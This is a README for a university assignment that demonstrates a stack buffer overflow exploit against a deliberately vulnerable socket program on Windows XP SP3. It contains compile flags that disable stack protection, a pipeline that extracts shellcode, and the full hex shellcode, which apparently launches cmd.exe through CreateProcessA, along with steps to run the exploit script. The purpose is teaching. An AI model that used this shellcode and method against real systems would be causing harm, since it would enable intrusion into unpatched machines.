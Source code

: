 # Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

![Buffer Overflow Demo](imgs/bo)

---
## Files

- `shell.asm`: Shellcode payload in x86 Intel assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```
---

## References (IEEE Style)

[1] Shell-Storm, "Shellcode Examples Database," [Online]. Available: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html). [Accessed: Dec. 2, 2024].

[2] Cocomelonc, "Windows Shellcoding Example: Writing and Testing Shellcode for Windows," [Online]. Available: [https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html). [Accessed: Dec. 2, 2024].

[3] M. Valle, "Windows Manual Shellcode Part 3: CreateProcessA," [Online]. Available: [https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html). [Accessed: Dec. 2, 2024].

[4] The Grey Corner, "Beginning Stack-Based Buffer Overflow," [Online]. Available: [https://thegreycorner.com/2010/01/07/beginning-stack-based-buffer-overflow.html](https://thegreycorner.com/2010/01/07/beginning-stack-based-buffer-overflow.html). [Accessed: Dec. 2, 2024].

[5] Insecure.org, "Smashing The Stack For Fun And Profit," [Online]. Available: [http://insecure.org/stf/smashstack.html](http://insecure.org/stf/smashstack.html). [Accessed: Dec. 2, 2024].

[6] Y. K. Kim, "Window Socket Programming," [Online]. Available: [https://ykkim.gitbook.io/ec/other-programming/socket-programming/window-socket-programming](https://ykkim.gitbook.io/ec/other-programming/socket-programming/window-socket-programming). [Accessed: Dec. 2, 2024].



